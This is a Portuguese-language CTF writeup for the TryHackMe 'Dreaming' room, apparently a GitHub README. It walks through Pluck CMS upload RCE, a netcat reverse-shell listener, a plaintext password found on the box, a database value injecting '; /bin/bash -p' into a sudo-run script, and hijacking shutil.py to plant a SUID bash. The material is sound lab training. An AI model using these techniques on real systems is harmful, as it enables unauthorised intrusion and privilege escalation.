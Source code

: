 <div align="center">

# 🌙 TryHackMe – Dreaming (Writeup)

*"Solve the riddle that dreams have woven."* ✨💭  

<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=22&pause=1000&color=00FFFF&width=600&lines=Linux+Exploitation;Web+Exploitation;Privilege+Escalation;CTF+Walkthrough" alt="Typing SVG" />
</p>

</div>

---
<div align="center">

## 📌 Informações da Máquina

- **Categoria:** Linux | Web  
- **Dificuldade:** 🟢 Easy  
- **Tempo Estimado:** ⏱️ 45 min  
- **Status:** ✅ Rooted com sucesso  
- **Link:** [Dreaming](https://tryhackme.com/room/dreaming)

</div>

---
<div align="center">
    
## 🗺️ Roadmap da Exploração

</div>

```mermaid
graph TD
A[Enumeração Inicial] --> B[Identificação Pluck CMS]
B --> C[Exploração RCE via Upload]
C --> D[Reverse Shell www-data]
D --> E[Credenciais Lucien em test.py]
E --> F[SSH Lucien]
F --> G[Sudo Abuse - getDreams.py]
G --> H[Injeção SQL + Subprocess Injection]
H --> I[Shell como Death]
I --> J[Credenciais Death via getDreams.py]
J --> K[Escalada em Morpheus com Hijack shutil.py]
K --> L[Root Shell + Flags]
````

---

## 🔍 Enumeração Inicial

```bash
root@ip-10-201-77-121:~# nmap -sS -v $ALVO
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-19 23:40 BST
...
22/tcp open  ssh
80/tcp open  http
```

📌 Serviços identificados → **SSH + HTTP**

---

## 🌐 Enumeração Web

```bash
root@ip-10-201-77-121:~# gobuster dir -u http://$ALVO -w /usr/share/wordlists/dirb/common.txt -x html,txt,php -t 50 --no-error
...
/app (Status: 301) [--> http://10.201.77.64/app/]
/index.html (Status: 200) [Size: 10918]
```

📌 `/app` → **Pluck CMS 4.7.13**

---

## ⚔️ Exploração – Pluck CMS

```bash
root@ip-10-201-77-121:~# searchsploit pluck 4.7.13
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated) | php/webapps/49909.py
```

📌 Vulnerabilidade: **File Upload RCE**

---

## 📡 Reverse Shell

```bash
root@ip-10-201-77-121:~# nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.77.64 35562
Linux ip-10-201-77-64 5.15.0-138-generic ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell como **www-data** ✅

---

## 🔑 Movendo para Lucien

### Encontrando credenciais

```bash
$ cd /opt
$ cat test.py
...
password = "HeyLucien#@1999!"
```

📌 Credenciais → `lucien : HeyLucien#@1999!`

---

### Acessando via SSH

```bash
ssh lucien@10.201.77.64
```

---

## 👤 Flag Lucien

```bash
lucien@ip-10-201-77-64:~$ cat lucien_flag.txt 
THM{************}
```

---

## 🗄️ Sudo Abuse – Death

```bash
lucien@ip-10-201-77-64:~$ sudo -l
(lucien) NOPASSWD: (death) /usr/bin/python3 /home/death/getDreams.py
```

### SQL Injection em subprocess

```sql
mysql> UPDATE dreams SET dream = '; /bin/bash -p' WHERE dreamer = 'Alice';
```

Executando:

```bash
lucien@ip-10-201-77-64:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py 
death@ip-10-201-77-64:/home/lucien$ 
```

---

## 👤 Flag Death

```bash
death@ip-10-201-77-64:~$ cat death_flag.txt 
THM{************}
```

---

## 🏰 Escalada Final – Morpheus

Encontrado em `/home/morpheus/restore.py`:

```python
from shutil import copy2 as backup
```

📌 Hijack `shutil.py` → injetando código malicioso:

```python
import os
os.system("cp /bin/bash /tmp && chmod +s /tmp/bash")
```

---

### Execução

```bash
death@ip-10-201-96-79:/tmp$ ./bash -p
bash-5.0$ whoami
morpheus
```

---

## 👑 Flag Morpheus

```bash
bash-5.0$ cat morpheus_flag.txt
THM{************}
```

---

## 🧩 Fluxo Final

1. Enumeração → serviços SSH/HTTP.
2. Descoberta de **Pluck CMS**.
3. Exploração RCE → shell **www-data**.
4. Credenciais em `/opt/test.py` → acesso SSH **lucien**.
5. `sudo` permitido → execução de **getDreams.py**.
6. Injeção SQL → pivot para **death**.
7. Credenciais MySQL → leitura de código.
8. Hijack de **shutil.py** → rootando **morpheus**.

---

## 🎉 Conclusão

Box criativa e bem construída:

* Mostra exploração de **CMS vulnerável**
* Uso de **subprocess injection via DB**
* Escalada de privilégios via **Python hijacking**
* Um caminho que realmente simula um "labirinto de sonhos"

💡 Ótima sala para praticar pivoting e encadeamento de vetores.

---

<div align="center">

![Snake animation](https://github.com/Platane/snk/raw/output/github-contribution-grid-snake.svg)

</div>
